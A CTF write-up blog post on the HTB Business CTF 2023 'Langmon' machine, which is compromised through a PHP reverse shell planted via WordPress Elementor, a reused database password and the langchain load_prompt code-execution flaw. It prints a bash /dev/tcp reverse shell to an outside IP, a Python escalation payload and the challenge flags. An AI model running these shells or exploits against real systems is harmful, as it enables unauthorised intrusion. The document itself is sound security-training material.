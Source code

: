 ```yaml
---
layout: post
title:  "HTB Business CTF 2023 - Langmon writeup"
date:   2023-07-17 00:00:00 +0300
categories: HTB_Business_CTF_2023 CTF FullPwn HTB
summary: Writeup for the Langmon challenge from HTB's Business CTF from 2023. This challenge involved exploiting a wordpress exploit and a langmon exploit.
---
```



Langmon was a challenge at the HTB Business CTF 2023 from the 'FullPwn' category.  
It involved a VM structured like a usual HTB machine with a user flag and a root flag.  
Its difficulty level was 'Very Easy' & it was mostly based on finding simple vulnerabilities and exploiting them.  

### Recon & identifying the service

After spawning the target, I only got an IP address and no specific port so the first step was to run a port scan & see what services are listening.  
There were 2 open ports:
- 22 - a ssh service
- 80 - a web app

The SSH service doesn't show any hint that it could be abused.  
So, I started with the web server.

### Exploring the web app

On port 80, I found a web page.

![The main web page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/web_page.png){: .center-image}

After inspecting it, I noticed that it is built using Wordpress. I also found the wp-login page.  

![The login page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_login.png){: .center-image}

Running wpscan on this doesn't return anything interesting, so I continued by manually exploring this app.  

By accessing /wp-json/wp/v2/users, I could see that the only user is 'admin'. This might be useful if for a brute-force attack later (maybe?).  

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_users.png){: .center-image}

I also found the sitemap for this web application.

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/sitemap.png){: .center-image}

The most interesting part here is the registration page. I went there and tried to create a new account.  

### Getting the foothold, uploading the webshell

![Registration]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/register.png){: .center-image}

After creating a new account, I was able to access the wordpress dashboard (as a regular user).  
However, I was unable to post anything without the admin reviewing it first.  

It looks like I could also create templates, not just posts.  
However, those also have to be admin-approved.
![Creating templates]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_01.png){: .center-image}

While looking at the options available for a regular user when creating templates, I noticed that I can use the Elementor plugin in order to make it easier to create templates and pages.

![Using Elementor plugin]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_02.png){: .center-image}

Also, that plugin allows for HTML / PHP blocks to be placed inside the pages or templates.  

![Inserting PHP]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_03.png){: .center-image}

So ... what if I put a shell in there

![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/shell_setup.png){: .center-image}

I pasted the contents of [this](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php) php reverse shell in there and clicked 'Apply'.  
It looks like my code gets executed after clicking 'Apply'. I could see that the shell was executed by checking on my listener.  

![First shell obtained]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/shell.png){: .center-image}

Now I have a shell as www-data.  
First, let's take a look at the wp-config file. It's always a good thing to check after obtaining access to a wordpress server. There might be some useful information in there.  

### Getting the user flag, credential reuse

![Wordpress credentials]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_credentials.png){: .center-image}

The database password is in there. It might be useful for connecting to the DB.  
Or, it might be re-used in other places.  

Let's check out what are the users available on this server.

![Users on the server]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/users.png){: .center-image}

Only 'developer' has a homedir, so that's probably the user that I want to login as.  
Let's check if the DB password isn't reused as the user's password too.  

![Logging in as developer]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/user_login.png){: .center-image}

And it works. I could also get the user flag for this machine: **HTB{4lw4y5_upd473_y0ur_plu61n5}**

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/user_flag.png){: .center-image}

I had the user's password so I checked if I could use sudo for anything (`sudo -l`).  

### Getting the root flag, langchain exploit

![Running sudo]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/sudo.png){: .center-image}

The 'developer' user can run /opt/prompt_loader.py as root.  

prompt_loader.py is a python script that imports [langchain](https://python.langchain.com/docs/get_started/introduction.html) and then calls load_prompt on a file specified by the user.  
The load_prompt method is known to be vulnerable and can be used for arbitrary code execution. More details on that can be seen [here](https://github.com/hwchase17/langchain/issues/4849).  

First, I took the PoC from github issue and tried using that as the script's input.
![Running the PoC]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/running_poc.png){: .center-image}

It works and it runs as root.  

Now I have to change the payload and use it to get a shell.  
I'm not sure if this script could spawn an interactive shell, so I tried with a reverse shell.  
A bash reverse shell (`bash -i >& /dev/tcp/10.10.14.182/1337 0>&1`) wouldn't work (maybe I forgot to escape something?) so I put it in a file and ran the file instead.

So my final payloads are:

/tmp/shell.sh
{% highlight bash %}
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.182/1337 0>&1
{% endhighlight %}

/tmp/prompt.py
{% highlight python %}
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('id')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
{% endhighlight %}

![Preparing the payload]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/payload.png){: .center-image}

And after running this (`sudo /opt/prompt_loader.py /tmp/prompt.py`) I could see a connection on my listener.

![Getting a root shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/root_shell.png){: .center-image}

And now I had a root shell on this machine.

![Getting the root flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/root_flag.png){: .center-image}

And I got the root flag for this machine: **HTB{7h3_m4ch1n35_5p34k_w3_h34r}**